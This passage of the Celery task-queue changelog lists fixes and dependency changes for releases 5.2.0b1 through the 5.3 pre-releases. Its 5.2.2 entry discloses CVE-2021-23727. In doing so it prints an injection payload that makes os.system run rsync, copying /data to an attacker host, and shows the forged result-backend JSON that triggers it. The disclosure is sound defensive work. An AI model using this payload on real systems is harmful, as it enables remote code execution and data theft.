- Check certificate/private key type when loading them by @qrmt in #7680
- Added integration test_chord_header_id_duplicated_on_rabbitmq_msg_duplication() by @Nusnus in #7692
- New feature flag: allow_error_cb_on_chord_header - allowing setting an error callback on chord header by @Nusnus in #7712
- Update README.rst sorting Python/Celery versions by @andrebr in #7714
- Fixed a bug where stamping a chord body would not use the correct stamping method by @Nusnus in #7722
- Fixed doc duplication typo for Signature.stamp() by @Nusnus in #7725
- Fix issue 7726: variable used in finally block may not be instantiated by @woutdenolf in #7727
- Fixed bug in chord stamping with another chord as a body + unit test by @Nusnus in #7730
- Use "describe_table" not "create_table" to check for existence of DynamoDB table by @maxfirman in #7734
- Enhancements for task_allow_error_cb_on_chord_header tests and docs by @Nusnus in #7744
- Improved custom stamping visitor documentation by @Nusnus in #7745
- Improved the coverage of test_chord_stamping_body_chord() by @Nusnus in #7748
- billiard >= 3.6.3.0,<5.0 for rpm by @auvipy in #7764
- Fixed memory leak with ETA tasks at connection error when worker_cancel_long_running_tasks_on_connection_loss is enabled by @Nusnus in #7771
- Fixed bug where a chord with header of type tuple was not supported in the link_error flow for task_allow_error_cb_on_chord_header flag by @Nusnus in #7772
- Scheduled weekly dependency update for week 38 by @pyup-bot in #7767
- recreate_module: set spec to the new module by @skshetry in #7773
- Override integration test config using integration-tests-config.json by @thedrow in #7778
- Fixed error handling bugs due to upgrade to a newer version of billiard by @Nusnus in #7781
- Do not recommend using easy_install anymore by @jugmac00 in #7789
- GitHub Workflows security hardening by @sashashura in #7768
- Update ambiguous acks_late doc by @Zhong-z in #7728
- billiard >=4.0.2,<5.0 by @auvipy in #7720
- importlib_metadata remove deprecated entry point interfaces by @woutdenolf in #7785
- Scheduled weekly dependency update for week 41 by @pyup-bot in #7798
- pyzmq>=22.3.0 by @auvipy in #7497
- Remove amqp from the BACKEND_ALISES list by @Kludex in #7805
- Replace print by logger.debug by @Kludex in #7809
- Ignore coverage on except ImportError by @Kludex in #7812
- Add mongodb dependencies to test.txt by @Kludex in #7810
- Fix grammar typos on the whole project by @Kludex in #7815
- Remove isatty wrapper function by @Kludex in #7814
- Remove unused variable _range by @Kludex in #7813
- Add type annotation on concurrency/threads.py by @Kludex in #7808
- Fix linter workflow by @Kludex in #7816
- Scheduled weekly dependency update for week 42 by @pyup-bot in #7821
- Remove .cookiecutterrc by @Kludex in #7830
- Remove .coveragerc file by @Kludex in #7826
- kombu>=5.3.0b2 by @auvipy in #7834
- Fix readthedocs build failure by @woutdenolf in #7835
- Fixed bug in group, chord, chain stamp() method, where the visitor overrides the previously stamps in tasks of these objects by @Nusnus in #7825
- Stabilized test_mutable_errback_called_by_chord_from_group_fail_multiple by @Nusnus in #7837
- Use SPDX license expression in project metadata by @RazerM in #7845
- New control command revoke_by_stamped_headers by @Nusnus in #7838
- Clarify wording in Redis priority docs by @strugee in #7853
- Fix non working example of using celery_worker pytest fixture by @paradox-lab in #7857
- Removed the mandatory requirement to include stamped_headers key when implementing on_signature() by @Nusnus in #7856
- Update serializer docs by @sondrelg in #7858
- Remove reference to old Python version by @Kludex in #7829
- Added on_replace() to Task to allow manipulating the replaced sig with custom changes at the end of the task.replace() by @Nusnus in #7860
- Add clarifying information to completed_count documentation by @hankehly in #7873
- Stabilized test_revoked_by_headers_complex_canvas by @Nusnus in #7877
- StampingVisitor will visit the callbacks and errbacks of the signature by @Nusnus in #7867
- Fix "rm: no operand" error in clean-pyc script by @hankehly in #7878
- Add --skip-checks flag to bypass django core checks by @mudetz in #7859
- Scheduled weekly dependency update for week 44 by @pyup-bot in #7868
- Added two new unit tests to callback stamping by @Nusnus in #7882
- Sphinx extension: use inspect.signature to make it Python 3.11 compatible by @mathiasertl in #7879
- cryptography==38.0.3 by @auvipy in #7886
- Canvas.py doc enhancement by @Nusnus in #7889
- Fix typo by @sondrelg in #7890
- fix typos in optional tests by @hsk17 in #7876
- Canvas.py doc enhancement by @Nusnus in #7891
- Fix revoke by headers tests stability by @Nusnus in #7892
- feat: add global keyprefix for backend result keys by @kaustavb12 in #7620
- Canvas.py doc enhancement by @Nusnus in #7897
- fix(sec): upgrade sqlalchemy to 1.2.18 by @chncaption in #7899
- Canvas.py doc enhancement by @Nusnus in #7902
- Fix test warnings by @ShaheedHaque in #7906
- Support for out-of-tree worker pool implementations by @ShaheedHaque in #7880
- Canvas.py doc enhancement by @Nusnus in #7907
- Use bound task in base task example. Closes #7909 by @WilliamDEdwards in #7910
- Allow the stamping visitor itself to set the stamp value type instead of casting it to a list by @Nusnus in #7914
- Stamping a task left the task properties dirty by @Nusnus in #7916
- Fixed bug when chaining a chord with a group by @Nusnus in #7919
- Fixed bug in the stamping visitor mechanism where the request was lacking the stamps in the 'stamps' property by @Nusnus in #7928
- Fixed bug in task_accepted() where the request was not added to the requests but only to the active_requests by @Nusnus in #7929
- Fix bug in TraceInfo._log_error() where the real exception obj was hiding behind 'ExceptionWithTraceback' by @Nusnus in #7930
- Added integration test: test_all_tasks_of_canvas_are_stamped() by @Nusnus in #7931
- Added new example for the stamping mechanism: examples/stamping by @Nusnus in #7933
- Fixed a bug where replacing a stamped task and stamping it again by @Nusnus in #7934
- Bugfix for nested group stamping on task replace by @Nusnus in #7935
- Added integration test test_stamping_example_canvas() by @Nusnus in #7937
- Fixed a bug in losing chain links when unchaining an inner chain with links by @Nusnus in #7938
- Removing as not mandatory by @auvipy in #7885
- Housekeeping for Canvas.py by @Nusnus in #7942
- Scheduled weekly dependency update for week 50 by @pyup-bot in #7954
- try pypy 3.9 in CI by @auvipy in #7956
- sqlalchemy==1.4.45 by @auvipy in #7943
- billiard>=4.1.0,<5.0 by @auvipy in #7957
- feat(typecheck): allow changing type check behavior on the app level; by @moaddib666 in #7952
- Add broker_channel_error_retry option by @nkns165 in #7951
- Add beat_cron_starting_deadline_seconds to prevent unwanted cron runs by @abs25 in #7945
- Scheduled weekly dependency update for week 51 by @pyup-bot in #7965
- Added doc to "retry_errors" newly supported field of "publish_retry_policy" of the task namespace by @Nusnus in #7967
- Renamed from master to main in the docs and the CI workflows by @Nusnus in #7968
- Fix docs for the exchange to use with worker_direct by @alessio-b2c2 in #7973
- Pin redis==4.3.4 by @auvipy in #7974
- return list of nodes to make sphinx extension compatible with Sphinx 6.0 by @mathiasertl in #7978
- use version range redis>=4.2.2,<4.4.0 by @auvipy in #7980
- Scheduled weekly dependency update for week 01 by @pyup-bot in #7987
- Add annotations to minimise differences with celery-aio-pool's tracer.py. by @ShaheedHaque in #7925
- Fixed bug where linking a stamped task did not add the stamp to the link's options by @Nusnus in #7992
- sqlalchemy==1.4.46 by @auvipy in #7995
- pytz by @auvipy in #8002
- Fix few typos, provide configuration + workflow for codespell to catch any new by @yarikoptic in #8023
- RabbitMQ links update by @arnisjuraga in #8031
- Ignore files generated by tests by @Kludex in #7846
- Revert "sqlalchemy==1.4.46 (#7995)" by @Nusnus in #8033
- Fixed bug with replacing a stamped task with a chain or a group (inc. links/errlinks) by @Nusnus in #8034
- Fixed formatting in setup.cfg that caused flake8 to misbehave by @Nusnus in #8044
- Removed duplicated import Iterable by @Nusnus in #8046
- Fix docs by @Nusnus in #8047
- Document --logfile default by @strugee in #8057
- Stamping Mechanism Refactoring by @Nusnus in #8045
- result_backend_thread_safe config shares backend across threads by @CharlieTruong in #8058
- Fix cronjob that use day of month and negative UTC timezone by @pkyosx in #8053
- Stamping Mechanism Examples Refactoring by @Nusnus in #8060
- Fixed bug in Task.on_stamp_replaced() by @Nusnus in #8061
- Stamping Mechanism Refactoring 2 by @Nusnus in #8064
- Changed default append_stamps from True to False (meaning duplicates … by @Nusnus in #8068
- typo in comment: mailicious => malicious by @yanick in #8072
- Fix command for starting flower with specified broker URL by @ShukantPal in #8071
- Improve documentation on ETA/countdown tasks (#8069) by @norbertcyran in #8075

.. _version-5.3.0b1:

5.3.0b1
=======

:release-date: 2022-08-01 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Canvas Header Stamping (#7384).
- async chords should pass it's kwargs to the group/body.
- beat: Suppress banner output with the quiet option (#7608).
- Fix honor Django's TIME_ZONE setting.
- Don't warn about DEBUG=True for Django.
- Fixed the on_after_finalize cannot access tasks due to deadlock.
- Bump kombu>=5.3.0b1,<6.0.
- Make default worker state limits configurable (#7609).
- Only clear the cache if there are no active writers.
- Billiard 4.0.1

.. _version-5.3.0a1:

5.3.0a1
=======

:release-date: 2022-06-29 5:15 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Remove Python 3.4 compatibility code.
- call ping to set connection attr for avoiding redis parse_response error.
- Use importlib instead of deprecated pkg_resources.
- fix #7245 uid duplicated in command params.
- Fix subscribed_to maybe empty (#7232).
- Fix: Celery beat sleeps 300 seconds sometimes even when it should run a task within a few seconds (e.g. 13 seconds) #7290.
- Add security_key_password option (#7292).
- Limit elasticsearch support to below version 8.0.
- try new major release of pytest 7 (#7330).
- broker_connection_retry should no longer apply on startup (#7300).
- Remove __ne__ methods (#7257).
- fix #7200 uid and gid.
- Remove exception-throwing from the signal handler.
- Add mypy to the pipeline (#7383).
- Expose more debugging information when receiving unknown tasks. (#7405)
- Avoid importing buf_t from billiard's compat module as it was removed.
- Avoid negating a constant in a loop. (#7443)
- Ensure expiration is of float type when migrating tasks (#7385).
- load_extension_class_names - correct module_name (#7406)
- Bump pymongo[srv]>=4.0.2.
- Use inspect.getgeneratorstate in asynpool.gen_not_started (#7476).
- Fix test with missing .get() (#7479).
- azure-storage-blob>=12.11.0
- Make start_worker, setup_default_app reusable outside of pytest.
- Ensure a proper error message is raised when id for key is empty (#7447).
- Crontab string representation does not match UNIX crontab expression.
- Worker should exit with ctx.exit to get the right exitcode for non-zero.
- Fix expiration check (#7552).
- Use callable built-in.
- Include dont_autoretry_for option in tasks. (#7556)
- fix: Syntax error in arango query.
- Fix custom headers propagation on task retries (#7555).
- Silence backend warning when eager results are stored.
- Reduce prefetch count on restart and gradually restore it (#7350).
- Improve workflow primitive subclassing (#7593).
- test kombu>=5.3.0a1,<6.0 (#7598).
- Canvas Header Stamping (#7384).

.. _version-5.2.7:

5.2.7
=====

:release-date: 2022-5-26 12:15 P.M UTC+2:00
:release-by: Omer Katz

- Fix packaging issue which causes poetry 1.2b1 and above to fail install Celery (#7534).

.. _version-5.2.6:

5.2.6
=====

:release-date: 2022-4-04 21:15 P.M UTC+2:00
:release-by: Omer Katz

- load_extension_class_names - correct module_name (#7433).
    This fixes a regression caused by #7218.

.. _version-5.2.5:

5.2.5
=====

:release-date: 2022-4-03 20:42 P.M UTC+2:00
:release-by: Omer Katz

**This release was yanked due to a regression caused by the PR below**

- Use importlib instead of deprecated pkg_resources (#7218).

.. _version-5.2.4:

5.2.4
=====

:release-date: 2022-4-03 20:30 P.M UTC+2:00
:release-by: Omer Katz

- Expose more debugging information when receiving unknown tasks (#7404).

.. _version-5.2.3:

5.2.3
=====

:release-date: 2021-12-29 12:00 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Allow redis >= 4.0.2.
- Upgrade minimum required pymongo version to 3.11.1.
- tested pypy3.8 beta (#6998).
- Split Signature.__or__ into subclasses' __or__ (#7135).
- Prevent duplication in event loop on Consumer restart.
- Restrict setuptools>=59.1.1,<59.7.0.
- Kombu bumped to v5.2.3
- py-amqp bumped to v5.0.9
- Some docs & CI improvements.


.. _version-5.2.2:

5.2.2
=====

:release-date: 2021-12-26 16:30 P.M UTC+2:00
:release-by: Omer Katz

- Various documentation fixes.
- Fix CVE-2021-23727 (Stored Command Injection security vulnerability).

    When a task fails, the failure information is serialized in the backend.
    In some cases, the exception class is only importable from the
    consumer's code base. In this case, we reconstruct the exception class
    so that we can re-raise the error on the process which queried the
    task's result. This was introduced in #4836.
    If the recreated exception type isn't an exception, this is a security issue.
    Without the condition included in this patch, an attacker could inject a remote code execution instruction such as:
    ``os.system("rsync /data attacker@192.168.56.100:~/data")``
    by setting the task's result to a failure in the result backend with the os,
    the system function as the exception type and the payload ``rsync /data attacker@192.168.56.100:~/data`` as the exception arguments like so:

    .. code-block:: python

        {
              "exc_module": "os",
              'exc_type': "system",
              "exc_message": "rsync /data attacker@192.168.56.100:~/data"
        }

    According to my analysis, this vulnerability can only be exploited if
    the producer delayed a task which runs long enough for the
    attacker to change the result mid-flight, and the producer has
    polled for the task's result.
    The attacker would also have to gain access to the result backend.
    The severity of this security vulnerability is low, but we still
    recommend upgrading.


.. _version-5.2.1:

5.2.1
=====

:release-date: 2021-11-16 8.55 P.M UTC+6:00
:release-by: Asif Saif Uddin

- Fix rstrip usage on bytes instance in ProxyLogger.
- Pass logfile to ExecStop in celery.service example systemd file.
- fix: reduce latency of AsyncResult.get under gevent (#7052)
- Limit redis version: <4.0.0.
- Bump min kombu version to 5.2.2.
- Change pytz>dev to a PEP 440 compliant pytz>0.dev.0.
- Remove dependency to case (#7077).
- fix: task expiration is timezone aware if needed (#7065).
- Initial testing of pypy-3.8 beta to CI.
- Docs, CI & tests cleanups.


.. _version-5.2.0:

5.2.0
=====

:release-date: 2021-11-08 7.15 A.M UTC+6:00
:release-by: Asif Saif Uddin

- Prevent from subscribing to empty channels (#7040)
- fix register_task method.
- Fire task failure signal on final reject (#6980)
- Limit pymongo version: <3.12.1 (#7041)
- Bump min kombu version to 5.2.1

.. _version-5.2.0rc2:

5.2.0rc2
========

:release-date: 2021-11-02 1.54 P.M UTC+3:00
:release-by: Naomi Elstein

- Bump Python 3.10.0 to rc2.
- [pre-commit.ci] pre-commit autoupdate (#6972).
- autopep8.
- Prevent worker to send expired revoked items upon hello command (#6975).
- docs: clarify the 'keeping results' section (#6979).
- Update deprecated task module removal in 5.0 documentation (#6981).
- [pre-commit.ci] pre-commit autoupdate.
- try python 3.10 GA.
- mention python 3.10 on readme.
- Documenting the default consumer_timeout value for rabbitmq >= 3.8.15.
- Azure blockblob backend parametrized connection/read timeouts (#6978).
- Add as_uri method to azure block blob backend.
- Add possibility to override backend implementation with celeryconfig (#6879).
- [pre-commit.ci] pre-commit autoupdate.
- try to fix deprecation warning.
- [pre-commit.ci] pre-commit autoupdate.
- not needed anyore.
- not needed anyore.
- not used anymore.
- add github discussions forum

.. _version-5.2.0rc1:

5.2.0rc1
========
:release-date: 2021-09-26 4.04 P.M UTC+3:00
:release-by: Omer Katz

- Kill all workers when main process exits in prefork model (#6942).
- test kombu 5.2.0rc1 (#6947).
- try moto 2.2.x (#6948).
- Prepared Hacker News Post on Release Action.
- update setup with python 3.7 as minimum.
- update kombu on setupcfg.
- Added note about automatic killing all child processes of worker after its termination.
- [pre-commit.ci] pre-commit autoupdate.
- Move importskip before greenlet import (#6956).
- amqp: send expiration field to broker if requested by user (#6957).
- Single line drift warning.
- canvas: fix kwargs argument to prevent recursion (#6810) (#6959).
- Allow to enable Events with app.conf mechanism.
- Warn when expiration date is in the past.
- Add the Framework :: Celery trove classifier.
- Give indication whether the task is replacing another (#6916).
- Make setup.py executable.
- Bump version: 5.2.0b3 → 5.2.0rc1.

.. _version-5.2.0b3:

5.2.0b3
=======

:release-date: 2021-09-02 8.38 P.M UTC+3:00
:release-by: Omer Katz

- Add args to LOG_RECEIVED (fixes #6885) (#6898).
- Terminate job implementation for eventlet concurrency backend (#6917).
- Add cleanup implementation to filesystem backend (#6919).
- [pre-commit.ci] pre-commit autoupdate (#69).
- Add before_start hook (fixes #4110) (#6923).
- Restart consumer if connection drops (#6930).
- Remove outdated optimization documentation (#6933).
- added https verification check functionality in arangodb backend (#6800).
- Drop Python 3.6 support.
- update supported python versions on readme.
- [pre-commit.ci] pre-commit autoupdate (#6935).
- Remove appveyor configuration since we migrated to GA.
- pyugrade is now set to upgrade code to 3.7.
- Drop exclude statement since we no longer test with pypy-3.6.
- 3.10 is not GA so it's not supported yet.
- Celery 5.1 or earlier support Python 3.6.
- Fix linting error.
- fix: Pass a Context when chaining fail results (#6899).
- Bump version: 5.2.0b2 → 5.2.0b3.

.. _version-5.2.0b2:

5.2.0b2
=======

:release-date: 2021-08-17 5.35 P.M UTC+3:00
:release-by: Omer Katz

- Test windows on py3.10rc1 and pypy3.7 (#6868).
- Route chord_unlock task to the same queue as chord body (#6896).
- Add message properties to app.tasks.Context (#6818).
- handle already converted LogLevel and JSON (#6915).
- 5.2 is codenamed dawn-chorus.
- Bump version: 5.2.0b1 → 5.2.0b2.

.. _version-5.2.0b1:

5.2.0b1
=======

:release-date: 2021-08-11 5.42 P.M UTC+3:00
:release-by: Omer Katz

- Add Python 3.10 support (#6807).
- Fix docstring for Signal.send to match code (#6835).
- No blank line in log output (#6838).
- Chords get body_type independently to handle cases where body.type does not exist (#6847).
- Fix #6844 by allowing safe queries via app.inspect().active() (#6849).
- Fix multithreaded backend usage (#6851).
- Fix Open Collective donate button (#6848).
- Fix setting worker concurrency option after signal (#6853).
- Make ResultSet.on_ready promise hold a weakref to self (#6784).
- Update configuration.rst.
- Discard jobs on flush if synack isn't enabled (#6863).
- Bump click version to 8.0 (#6861).
- Amend IRC network link to Libera (#6837).
- Import celery lazily in pytest plugin and unignore flake8 F821, "undefined name '...'" (#6872).
- Fix inspect --json output to return valid json without --quiet.
- Remove celery.task references in modules, docs (#6869).
-  The Consul backend must correctly associate requests and responses (#6823).
